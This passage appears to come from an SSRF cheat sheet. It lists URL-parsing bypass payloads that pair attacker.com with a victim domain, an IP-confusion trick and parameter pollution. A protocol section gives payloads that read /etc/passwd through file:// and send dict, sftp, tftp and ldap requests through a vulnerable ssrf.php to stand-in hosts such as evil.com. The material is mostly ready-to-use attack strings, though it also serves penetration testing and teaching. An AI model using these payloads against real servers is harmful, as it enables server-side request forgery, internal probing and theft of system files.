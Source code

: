 ```html
https://attacker.com#{domain}
https://attacker.com@{domain}
https://attacker.com#@{domain}
https://attacker.com%23@{domain}
https://attacker.com%00{domain}
https://attacker.com%0A{domain}
https://attacker.com?{domain}
https://attacker.com///{domain}
https://attacker.com\{domain}/
https://attacker.com;https://{domain}
https://attacker.com\{domain}/
https://attacker.com\.{domain}
https://attacker.com/.{domain}
https://attacker.com\@@{domain}
https://attacker.com:\@@{domain}
https://attacker.com#\@{domain}
https://attacker.com\anything@{domain}/
https://www.victim.com(\u2044)some(\u2044)path(\u2044)(\u0294)some=param(\uff03)hash@attacker.com

# On each IP position try to put 1 attackers domain and the others the victim domain
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com

```

* **Other Confusions**

 https://claroty.com/2022/01/10/blog-research-exploiting-url-parsing-confusion/

* **Bypass via open redirect**

Read more here: https://portswigger.net/web-security/ssrf

# Protocols

* file://
```html
file:///etc/passwd

```
* dict://
```html
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/

```
* SFTP://
```html
ssrf.php?url=sftp://evil.com:11111/

```
* TFTP://
```html
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET

```
* LDAP://
```html
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

```
* Gopher://
```html
//Gopher smtp
```